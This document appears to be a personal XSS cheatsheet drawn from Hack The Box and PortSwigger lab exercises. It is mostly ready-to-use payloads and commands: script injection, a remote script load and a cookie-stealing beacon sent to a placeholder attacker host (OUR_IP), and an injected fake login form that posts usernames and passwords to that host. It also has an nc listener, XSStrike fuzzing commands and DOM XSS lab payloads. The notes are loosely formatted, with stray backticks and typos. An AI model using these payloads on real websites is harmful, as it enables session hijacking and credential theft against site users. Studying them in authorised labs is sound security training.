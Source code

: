 # 🛠️ XSS Cheatsheet

## 📜 Basic Payloads
```html
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
<img src="" onerror=alert(window.origin)>
````

---

## 🎨 Visual Modifications

```html
<script>document.body.style.background = "#141d2b"</script>   <!-- Change background color -->
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>   <!-- Change background image -->
<script>document.title = 'HackTheBox Academy'</script>   <!-- Change website title -->
```

---

## 🧩 DOM Manipulation

```html
<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>   <!-- Overwrite website body -->
<script>document.getElementById('urlform').remove();</script>   <!-- Remove an HTML element -->
```

---

## 📡 External Interaction

```html
<script src="http://OUR_IP/script.js"></script>   <!-- Load remote script -->
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>   <!-- Steal cookies -->
```

---

# ⚡ Commands

### 🔎 XSS Scanning

```bash
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
```

### 📡 Listener Setup

```bash
sudo nc -lvnp 80
```

### 🌐 Simple PHP Webserver

```bash
sudo php -S 0.0.0.0:80
```


### **⚡PHISING:**
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```


## 🔹 3. Save Request to a File
the request save to to a file capture it using the burp
Save it as `request.txt`:

`POST /post_comment.php HTTP/1.1 Host: target.com Content-Type: application/x-www-form-urlencoded Cookie: PHPSESSID=abcd1234  comment=hello&post_id=123`

---

## 🔹 4. Run XSStrike with Request File

Now run XSStrike against that request:

`python3 xsstrike.py -r request.txt`

python3 xsstrike.py -f req.txt --data "comment=PAYLOAD"
Or for another field:

`python3 xsstrike.py -f req.txt --data "name=PAYLOAD"
`python3 xsstrike.py -f req.txt --data "email=PAYLOAD"
`python3 xsstrike.py -f req.txt --data "website=PAYLOAD"

Automated Fuzzing (all params)

If you want XSStrike to fuzz all fields automatically, just do

`python3 xsstrike.py -f req.txt --fuzzer


`python3 xsstrike.py -u "https://0ac3003d045222878032b3c200f60010.web-security-academy.net/post/comment" \
--data `"csrf=cUKlsG8byWDnTy72CGQHMUt73SErSM48&postId=9&comment=XSSTEST&name=iffi-x&email=iffi%40iffi.com&website=http://iffi.com" \
`--headers "Cookie: session=FWzrjgF3hYNrpGYlVsoD1PkdxJC2JbQQ" \
`--fuzzer``

DOM XSS 
location.search vuln in dom 
in document.write: 
if the query is writte in document so break the imag attribute and 
"><svg onload=alert(1)> 
 
 in inner HTML
<svg onload=alert(1)> 

python3 xsstrike.py -u "https://0a07001d0340bcff801c038500bf0038.web-security-academy.net/?search=test" --fuzzer --blind
 if its dom based do this 

the url parameter is setting the return path to / 
/feedback?returnPath=javascript:alert(document.cookie)
enter 
javascript:alert(doucument.cookie)

# DOM XSS in jQuery selector sink using a hashchange event

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

## Reflected XSS into attribute with angle brackets HTML-encoded
<input value="test" " onmouseover="alert(1)">
 reflected XSS in 